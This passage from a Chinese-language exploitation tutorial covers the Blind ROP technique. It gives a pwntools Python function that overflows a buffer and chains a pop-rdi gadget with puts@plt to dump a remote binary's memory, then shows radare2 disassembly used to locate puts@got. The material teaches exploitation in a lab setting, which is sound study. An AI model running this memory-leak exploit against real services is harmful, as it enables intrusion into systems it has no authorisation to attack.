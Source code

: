 #### remote dump
有了 puts，有了 gadget，就可以着手 dump 程序了：
```python
def dump_memory(buf_size, stop_addr, gadgets_addr, puts_plt, start_addr, end_addr):
    pop_rdi  = gadgets_addr + 9     # pop rdi; ret

    result = ""
    while start_addr < end_addr:
        #print result.encode('hex')
        sleep(0.1)
        payload  = "A"*buf_size
        payload += p64(pop_rdi)
        payload += p64(start_addr)
        payload += p64(puts_plt)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            data = p.recv(timeout=0.1)      # timeout makes sure to recive all bytes
            if data == "\n":
                data = "\x00"
            elif data[-1] == "\n":
                data = data[:-1]
            log.info("leaking: 0x%x --> %s" % (start_addr,(data or '').encode('hex')))
            result += data
            start_addr += len(data)
            p.close()
        except:
            log.info("Can't connect")
    return result
```
我们知道 puts 函数通过 `\x00` 进行截断，并且会在每一次输出末尾加上换行符 `\x0a`，所以有一些特殊情况需要做一些处理，比如单独的 `\x00`、`\x0a` 等，首先当然是先去掉末尾 puts 自动加上的 `\n`，然后如果 recv 到一个 `\n`，说明内存中是 `\x00`，如果 recv 到一个 `\n\n`，说明内存中是 `\x0a`。`p.recv(timeout=0.1)` 是由于函数本身的设定，如果有 `\n\n`，它很可能在收到第一个 `\n` 时就返回了，加上参数可以让它全部接收完。

这里选择从 `0x400000` dump到 `0x401000`，足够了，你还可以 dump 下 data 段的数据，大概从 `0x600000` 开始。

#### puts@got
拿到 dump 下来的文件，使用 Radare2 打开，使用参数 `-B` 指定程序基地址，然后反汇编 `puts@plt` 的位置 `0x4005e7`，当然你要直接反汇编 `0x4005f0` 也行：
```
$ r2 -B 0x400000 code.bin
[0x00400630]> pd 14 @ 0x4005e7
     ::::   0x004005e7      25240a2000     and eax, 0x200a24                                                                                                                          
     ::::   0x004005ec      0f1f4000       nop dword [rax]                                                                                                                            
     ::::   0x004005f0      ff25220a2000   jmp qword [0x00601018]      ; [0x601018:8]=-1                                                                                              
     ::::   0x004005f6      6800000000     push 0                                                                                                                                     
     `====< 0x004005fb      e9e0ffffff     jmp 0x4005e0                                                                                                                               
      :::   0x00400600      ff251a0a2000   jmp qword [0x00601020]      ; [0x601020:8]=-1                                                                                              
      :::   0x00400606      6801000000     push 1                      ; 1                                                                                                            
      `===< 0x0040060b      e9d0ffffff     jmp 0x4005e0                                                                                                                               
       ::   0x00400610      ff25120a2000   jmp qword [0x00601028]      ; [0x601028:8]=-1                                                                                              
       ::   0x00400616      6802000000     push 2                      ; 2                                                                                                            
```